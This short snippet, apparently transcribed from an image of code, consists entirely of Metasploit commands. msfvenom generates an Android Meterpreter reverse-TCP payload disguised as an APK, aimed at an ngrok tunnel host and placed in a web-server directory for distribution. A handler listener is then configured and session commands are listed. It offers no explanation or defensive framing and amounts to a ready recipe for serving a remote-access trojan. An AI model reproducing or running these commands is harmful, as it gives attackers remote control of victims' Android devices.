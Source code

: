 msfvenom -p android/meterpreter/reverse_tcp LHOST=8.tcp.ngrok.io LPORT=10662 R> /var/www/html/andy.apk

use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
show options
exploit


# Meterpreter commands
sessions
sessions -i 1

